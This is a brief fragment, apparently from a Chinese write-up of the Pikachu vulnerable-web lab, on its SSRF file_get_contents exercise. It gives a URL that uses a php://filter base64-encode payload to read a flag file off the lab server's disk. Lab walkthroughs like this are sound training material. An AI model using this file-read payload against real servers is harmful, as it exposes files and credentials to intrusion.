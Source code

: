 <br>

可通过php伪协议读取指定文件	

```
http://127.0.0.1:81/pikachu/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=E:/phpStudy/WWW/flag.txt
```

![image-20221202162304298](pikachu靶场/image-20221202162304298.png)

